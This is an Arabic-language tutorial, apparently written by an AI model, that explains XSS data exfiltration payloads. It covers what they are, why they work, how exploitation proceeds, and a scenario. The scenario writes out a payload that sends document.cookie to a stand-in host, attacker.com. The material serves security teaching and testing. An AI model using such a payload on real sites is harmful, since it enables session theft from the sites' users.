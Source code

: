 بناءً على طلبك لشرح **الحقن المستخدمة لاستخراج البيانات (Data Exfiltration Payloads)** باستخدام نفس طريقة الشرح المقدمة (التي تتضمن أقسامًا مثل "ما المقصود؟"، "لماذا يعمل؟"، "كيف يتم الاستغلال؟"، والخطوات العملية)، سأقدم شرحًا مفصلاً ومنظمًا لهذه الخطوة في اختبار ثغرات Cross-Site Scripting (XSS). سأغطي جميع المحاولات الممكنة لاستخراج البيانات الحساسة (مثل ملفات تعريف الارتباط، بيانات المستخدم، أو محتوى الصفحة) عبر استغلال ثغرة XSS، مع تقسيمها إلى فئات (مثل استخراج ملفات تعريف الارتباط، استخراج محتوى DOM، وإرسال البيانات إلى خادم خارجي). سيتم تضمين المحتوى في علامة `<xaiArtifact>` كما هو مطلوب، مع معرف جديد لأن هذا طلب مستقل يركز على خطوة محددة. سأحافظ على الشرح باللغة العربية بأسلوب واضح ومنظم، متجنبًا تنسيق Markdown خارج العلامة بناءً على طلبك السابق.

---

## فهم الخطوة: الحقن المستخدمة لاستخراج البيانات (Data Exfiltration Payloads)

### ما المقصود؟
الحقن المستخدمة لاستخراج البيانات هي شيفرات JavaScript تُستخدم في استغلال ثغرات Cross-Site Scripting (XSS) لسرقة معلومات حساسة من صفحة الضحية، مثل ملفات تعريف الارتباط (cookies)، بيانات المستخدم (مثل أسماء المستخدمين أو البريد الإلكتروني)، محتوى الصفحة (مثل النصوص أو السمات)، أو بيانات الجلسة. تُصمم هذه الحقن لجمع البيانات وإرسالها إلى خادم يتحكم فيه المهاجم، عادةً عبر طلبات HTTP (مثل GET أو POST) أو تقنيات أخرى (مثل WebSocket). تُستخدم هذه الحقن في سياقات **XSS المنعكس**، **XSS المخزن**، و**XSS القائم على DOM** بعد تأكيد وجود الثغرة.

### لماذا يعمل؟
- **وصول JavaScript إلى DOM**: يتيح JavaScript الوصول إلى بيانات الصفحة (مثل `document.cookie`، `document.body.innerHTML`) والتلاعب بها.
- **إرسال البيانات**: يمكن لـ JavaScript إرسال البيانات إلى خادم خارجي عبر طلبات HTTP (مثل `Image.src`، `XMLHttpRequest`) أو عبر تقنيات مثل WebSocket.
- **ضعف الحماية**: العديد من التطبيقات لا تطبق سياسات أمان مثل `HttpOnly` لملفات تعريف الارتباط أو `Content Security Policy (CSP)`، مما يسمح باستخراج البيانات.
- **تنفيذ تلقائي**: يمكن تنفيذ الحقن تلقائيًا (مثل عبر `<script>` أو `onload`) دون تفاعل المستخدم، مما يجعل الاستغلال مخفيًا.
- **مرونة الإرسال**: يمكن إرسال البيانات إلى خادم المهاجم بطرق متعددة، مما يتجاوز بعض القيود مثل فلاتر الشبكة.

### كيف يتم الاستغلال؟
- يتم إدخال شيفرة JavaScript في نقطة إدخال عرضة لـ XSS (مثل معلمات URL، حقول نماذج، أو تعليقات) لتنفيذها في متصفح الضحية.
- تُصمم الشيفرة لجمع بيانات حساسة (مثل `document.cookie`، محتوى عنصر معين، أو بيانات الجلسة).
- تُرسل البيانات إلى خادم خارجي يتحكم فيه المهاجم باستخدام طلبات HTTP، صور، أو قنوات اتصال أخرى.
- يتم مراقبة الخادم الخارجي لتأكيد استلام البيانات:
  - **نجاح (True)**: البيانات تظهر في سجلات الخادم (مثل ملفات تعريف الارتباط أو محتوى الصفحة).
  - **فشل (False)**: لا تصل بيانات، أو يتم حظر الطلب (مثل بسبب CSP أو Same-Origin Policy).
- تُكيَّف الحقن لتجنب الكشف (مثل تقليل حجم البيانات أو تشفيرها) ولتجاوز القيود مثل فلاتر الشبكة.

### السناريو
لنفترض أنك اكتشفت ثغرة XSS في موقع إلكتروني يسمح بتنفيذ شيفرة JavaScript عبر حقل تعليق أو معلمة URL (مثل `https://example.com/?search=<script>alert('XSS')</script>`). بعد تأكيد الثغرة باستخدام تنبيه بسيط، تريد الآن استخراج بيانات حساسة مثل ملفات تعريف الارتباط (`document.cookie`) أو محتوى الصفحة (مثل اسم المستخدم من عنصر `<span id="username">`). تقوم بإعداد خادم خارجي (مثل `http://attacker.com/log`) لتسجيل البيانات، ثم تُدخل حقنة مثل `<script>new Image().src='http://attacker.com/log?c='+document.cookie</script>` في نقطة الإدخال. إذا تلقى خادمك البيانات، فهذا يؤكد نجاح استخراج البيانات.

---
